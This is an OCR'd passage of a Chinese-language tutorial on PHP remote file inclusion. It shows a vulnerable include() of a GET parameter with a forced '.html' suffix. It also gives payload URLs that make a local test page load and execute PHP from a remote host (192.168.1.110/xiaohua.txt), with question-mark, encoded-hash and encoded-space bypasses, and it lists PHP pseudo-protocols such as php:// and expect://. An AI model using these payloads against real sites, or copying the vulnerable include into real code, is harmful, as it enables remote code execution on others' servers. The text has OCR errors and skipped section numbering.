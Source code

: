 ### Payload：

```
http://127.0.0.1/test.php?filename=http://192.168.1.110/xiaohua.txt
```

包含在xiaohua.txt中的PHP代码通过远程文件包含被成功当成PHP代码解析。

## 二、有限制远程文件包含
有限制远程文件包含是指当代吗中存在特定的前缀或者.php、.html等扩展名过滤时，攻击者仅需要绕过前缀或者扩展名过滤，才能执行远程URL中恶意代码。

漏洞代码:

```
<?php
     $filename  = $_GET['filename'];
     include($filename.”.html”);
?>
```
### 1、问号绕过

```
http://127.0.0.1/test.php?filename=http://192.168.1.110/xiaohua.txt?
```

### 2、＃号绕过

```
http://127.0.0.1/test.php?filename=http://192.168.1.110/xiaohua.txt%23(#号要编码)
```

### 3、空格绕过

```
http://127.0.0.1/test.php?filename=http://192.168.1.110/xiaohua.txt%20(%20是空格的url编码)
```

FUZZ可以大量检测

# 六、PHP伪协议

PHP带了很多内置URL风格的封装协议，可用于fopen、copy、file_exists和filesize等文件系统函数。除了这些内置封装协议，还能通过stream_wrapper_register注册自定义的封装协议。这些协议都被称为伪协议。

```
File:// ——访问本地文件系统
http:// ——访问HTTP(s)网址
ftp://  ——访问FTP(s)URLs
php://     访问各个输入/输出流(I/o streams)
zlib://     压缩流
data://    读取数据(RFC2397)
glob://    查找匹配的文件路径模式
phar://    PHP归档
ssh2://    Secure Sheel2
rar://      RAR
ogg://     音频流
expect:// 处理交互式的流
```
